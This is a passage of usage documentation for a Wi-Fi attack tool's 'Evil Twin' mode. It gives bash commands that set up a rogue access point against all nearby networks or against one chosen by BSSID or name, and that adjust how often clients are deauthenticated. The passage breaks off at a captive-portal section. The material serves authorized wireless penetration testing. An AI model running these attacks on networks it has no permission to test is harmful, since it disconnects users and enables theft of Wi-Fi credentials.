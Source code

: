 **Common Issues:**
- ❌ "Interface does not support AP mode" → Use different adapter
- ❌ "Port 80 in use" → Stop conflicting service
- ❌ "No clients connecting" → Move closer, increase deauth frequency

For detailed troubleshooting, see [Evil Twin Troubleshooting Guide](EVILTWIN_TROUBLESHOOTING.md).

---

## Basic Usage

### Simple Attack on All Targets

```bash
# Scan and attack all targets with Evil Twin
sudo wifite --eviltwin
```

### Attack Specific Target by BSSID

```bash
# Target a specific access point
sudo wifite --eviltwin -b AA:BB:CC:DD:EE:FF
```

### Attack Specific Target by ESSID

```bash
# Target by network name
sudo wifite --eviltwin -e "NetworkName"
```

### Attack with Custom Interface

```bash
# Specify which interface to use for the rogue AP
sudo wifite --eviltwin --eviltwin-fakeap-iface wlan1
```

---

## Advanced Options

### Deauthentication Configuration

```bash
# Adjust deauth interval (seconds between bursts)
sudo wifite --eviltwin --eviltwin-deauth-interval 10

# Use specific interface for deauth
sudo wifite --eviltwin --eviltwin-deauth-iface wlan0mon
```

### Captive Portal Configuration
